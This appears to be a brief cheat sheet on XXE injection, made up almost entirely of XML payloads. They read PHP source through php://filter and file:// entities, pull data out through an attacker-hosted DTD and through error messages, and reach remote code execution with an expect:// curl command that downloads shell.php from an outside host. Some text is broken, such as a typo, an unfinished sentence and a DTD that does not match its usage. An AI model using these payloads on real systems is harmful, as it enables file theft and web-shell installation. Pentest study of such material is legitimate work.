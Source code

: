 **Reading sorce code:**

```xml
<!DOCTYPE name_or_parent_element [
  <!ENTITY badstuff SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

(Need PHP filter to be installed and active)

To overcome this we need to provide this DTD file:

```xml
<!ENTITY badstuff "%begin;%file;%end;">
```

General entities can#t be used in the DTD but only in the document itself - that's why 

Then we can use the parameter entity `%xxe`:

```xml
<!DOCTYPE name_or_parent_element [
  <!ENTITY % begin "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///var/www/html/index.php">
  <!ENTITY % end "]]>">
  <!ENTITY % xxe SYSTEM "https://pentest-experts.com/xxe.dtd">
  %xxe;
]>
```

(Wrap file contents in `<![CDATA[` ... `]]>` to mark it as raw data and prevent XML parser errors)

Error based XXE:

We need to provide this DTD file:

```xml
<!ENTITY % file SYSTEM "file:///var/www/html/index.php">
<!ENTITY % badstuff "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

Then we can use this code to trigger the error:

```xml
<!DOCTYPE name_or_parent_element [ 
  <!ENTITY % xxe SYSTEM "https://pentest-experts.com/xxe.dtd">
  %xxe;
  %badstuff;
]>
```

**RCE:**

```xml
<!DOCTYPE name_or_parent_element [
  <!ENTITY badstuff SYSTEM "expect://curl$IFS-O$IFS'https://pentest-experts.com/shell.php'">
]>
```

(requires the PHP expect module to be installed and enabled)
